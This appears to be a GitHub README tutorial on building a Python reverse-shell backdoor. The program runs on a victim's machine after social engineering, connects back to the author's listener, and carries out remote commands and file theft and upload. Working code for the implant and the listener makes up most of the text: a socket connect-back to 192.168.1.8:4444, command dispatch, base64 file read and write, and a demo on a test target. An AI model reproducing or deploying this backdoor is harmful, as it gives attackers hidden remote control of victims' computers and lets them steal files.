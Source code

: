 # Backdoor

A backdoor refers to any method by which authorized and unauthorized users are able to get around normal security measures and gain high level user access on a computer system, network, or software application. With this malware we're going to gain access to download files, upload files, and access any repository ta we want.</br>
## HOW?</br>
This malware have to be executed on the target machine, this repository don't cover the part of this malware being executed on the target machine because this is done with social engineering converting the progam .py in one file .exe, anyway i won't cover this here, i'm gonna show how to create the malware.

## Behavior of a Backdoor
The idea is connect the both computers(mine and the target machine) using sockets, but trying to connect my computer with the target directly doesn't work, the system denies the connection with some random port obviously, is like someone random trying to connect with my computer i wouldn't allow. So instead of me try to connect with some random port of the target machine i'm gonna make the target machine do the connection with me, when the target downloads the .exe it's gonna run the progam and this way connecting with some port that i opened in my computer.</br>

Once i already have the connection how i'm gonna execute commands on the target machine and download files e upload files? With the socket connection i can send and receive strings between the computers, so i'm gonna send the command that i want to execute on the target machine and he will receive, and my progam(the program that the target downloaded) will treat the string and execute on the target machine, sending back to my computer the command result. EX: if the target use Windows and i send the command "cd" as a string he will receive and my progam it's gonna execute and send back the command result, in this case the directory that i'm.</br>

The first thing that my .exe it's gonna do when the target executed it's connect with my machine using the module socket of python, in this case the connection is made by the constructor when i creat an object of the class backdoor.
```python
def __init__(self, ip, port):
    self.connection = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    self.connection.connect((ip, port))

my_backdoor = Backdoor ("192.168.1.8",4444)
my_backdoor.run()
```
then i run the methon run() that is gonna run all the time while the connection is up, the method receive_as_json() receive the commands that i sent from my machine, it receive as json because the socket connection just receive strings and how the commands that i want to execute are biggers, because they are lists like "dowload file.txt", i use json that converts lists and everything in strings.
```python
def receive_as_json(self):
        json_data = ""
        while True:
            try:
                json_data = json_data + self.connection.recv(1024)
                return json.loads(json_data)
            except ValueError:
                continue
```
this is other method that have an infinite loop because i can receive just 1024 bytes for each interaction, so verify if all the content already been received, if not keep receiveing more 1024 bytes.</br>

the try statement it's gonna verify the command list, precisely the first position to verify what i want to use(cd, download, upload) any other command will execute without any problems. When the cd command is executed I just change my directory to which i want to go(second part of the list the command[1]) with the module "os". And the result i put in variable command_result that is sent to my computer as json. 
```python
           try:
                if command[0] == "exit":
                    self.connection.close()
                    sys.exit()
                elif command[0] == "cd" and len(command) > 1:
                       self.change_working_directory_to(command[1])
                       command_result = "[+] Changing working directory to " + str(command[1])
                elif command[0] == "download":
                    command_result = self.read_file(command[1])
                elif command[0] == "upload":
                    command_result = self.write_file(command[1], command[2])  
                else:
                    command_result = self.execute_system_command(command)
            except Exception as e:
                command_result = "[-] Error during comand execution."
 
            self.send_as_json(command_result)
```
To download and upload files between the connection the logic is almost the same, the ideia is to copy the file that i want to download from the target machine and create a new file on my machine with the same content that i received through the connection. When i copy a file i actually copy all the characters from this file and when i paste i create a new file with this characters that i copied.
```python
def read_file(self, path):
    with open(path, "rb") as file:
         return base64.b64encode(file.read())
```
the logic reading the file is eazy, i just read the file that i want to download as a binary file and convert into base 64 with the module "base64", because when i read as a binary file unknow characters comes with the other characters, so converting the file to base 64 the unknow characters don't appear anymore.</br>

Anyway when i download one file from the target machine i actually sent the characters through the socket connection and receive on my machine, then one file is created with this characters tha came from the target machine, this way i have the file that i wanted in my pc. Now when i want to upload files to my target is the same logic i just have to send from my computer the characters(in base 64) of the file, and the target machine will receive and use the method write_file() to create a file with the characters that i want.

```python
 def write_file(self, path, content):
        with open(path, "wb") as file:
            file.write(base64.b64decode(content))
            return "[+] Upload successful."
```
All of this was the .exe that run on the target machine, the listener is almost the same thing of this code, the differences are the constructor of it that open a port to receive the connection from the target machine.
```python
def __init__(self, ip, port):
          listener = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
          listener.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
          listener.bind((ip, port))
          listener.listen(0)
          print("[+] Waiting  for incoming connections")
          self.connection, address = listener.accept()
          print("[+] Got a connection from" + str(address))
```

the method run() it's gonna be in loop until i write the word "exit", while this i have an input to send the command that i want to the target machine, then i split the command to convert into a list. As i said if the first position of my list is "upload" i'm gonna read characters that i want and send through the socket connection as json, if the command is "download" i'm gonna send the command and receive the characters from the file that i want, and create a file with this characters.

```python
def run(self):
          while True:
                command = raw_input(">> ")
                command = command.split(" ")

                try:
		               if command[0] == "upload":
	                    file_content = self.read_file(command[1])
	                    command.append(file_content) 

		               result = self.execute_remotely(command) 
		                      
		               if command[0] == "download":
		                  result = self.write_file(command[1], result)
               except Exception:
                   result = "[-] Error during command execution"  

               print(result)
```
##The Backdoor in action...

First of all i have to execute the listener.py in my machine and wait the target download the .exe, with my testing machine , that is my target, i downloaded the .exe(the file reverse_backdoor.py) then the connection is made automatically from the target machine. How you can see i got a connection from my target and if write the command ipconfig i already can see the result on my machine. 

![Alt text](/<images/gif1.gif)

With the command "dir" i can see wich files are in that directoy, i want to download the image "codeImage.png", sending the command "download codeImage.png" the image appears on my machine.

![Alt text](/<images/gif2.gif)

Now i want to send the file EVILFILE.txt to my target, as you can see with the command "dir" there was nothing like that on the target,but when i write the command "upload EVILFILE.txt"...

![Alt text](/<images/gif3.gif)





